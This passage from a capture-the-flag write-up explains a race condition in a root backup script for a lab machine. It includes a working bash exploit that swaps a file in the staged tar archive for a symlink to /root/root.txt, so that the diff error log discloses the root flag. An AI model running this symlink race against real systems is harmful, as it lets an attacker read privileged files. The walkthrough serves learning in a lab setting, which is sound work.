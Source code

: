 ```bash
/bin/mkdir $check                         
/bin/tar -zxvf $tmpfile -C $check         
if [[ $(integrity_chk) ]]                 
then                                      
    # Report errors so the dev can investigate the issue.                           
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg            
    exit 2                                
else                                      
    # Clean up and save archive to the bkpdir.                                      
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak                                      
    /bin/rm -rf $check .*                 
    exit 0                                
fi
```

This script creates a tar archive of the `/var/www/html` and places it on the `/var/tmp` with ownership of `onuma` user. Then, Waits for 30 seconds and then unarchives the tar file and diffs with the original contents of `/var/www/html`. If it has some errors it logs it into `/var/backups/onuma_backup_error.log`.

So, To exploit it we need two shells on the box.
One shell to run `watch -n 1 ls -la '/var/tmp/'` to watch when the new file is created.
And, another shell to fire of this bash script written by me to replace the `/var/www/html/robots.txt` with a symlink to `/root/root.txt`. As a result when the diff occurs next time it logs an error and puts the root flag on the `/var/backups/onuma_backup_errors.log`.

The bash exploit script:
```bash
#!/bin/bash
while true 
do
tarfile=$(ls -la /var/tmp/ |grep onuma|awk '{print $9}');
if test -z "$tarfile" 
then
        echo "\$tarfile is empty";
        continue;
else
      echo "\$tarfile is NOT empty";
fi
echo "[+] Found File "$tarfile;
tarpath=/var/tmp/$tarfile;
echo "[+] Found File Path "$tarpath;
tar xzf $tarpath --directory /var/tmp/;
echo "[+] Extracted "$tarfile" : "$(ls -la /var/tmp|grep onuma)
rm -rf $tarpath;
echo "[+] Removed "$tarpath" : "$(ls -la /var/tmp|grep onuma)
echo "[+] Removing /var/tmp/var/www/html/robots.txt : "$(ls -la /var/tmp/var/www/html/robots.txt)
rm /var/tmp/var/www/html/robots.txt;
echo "[+] Removed /var/tmp/var/www/html/robots.txt : "$(ls -la /var/tmp/var/www/html/robots.txt)
ln -s /root/root.txt /var/tmp/var/www/html/robots.txt;
echo "[+] Created /root/root.txt symlink : " $(ls -la /var/tmp/var/www/html/)
cd /var/tmp;tar -cvzf $tarpath var/www/html/
echo "[+] Created the tar archive : "$tarpath
exit 0
done;
```
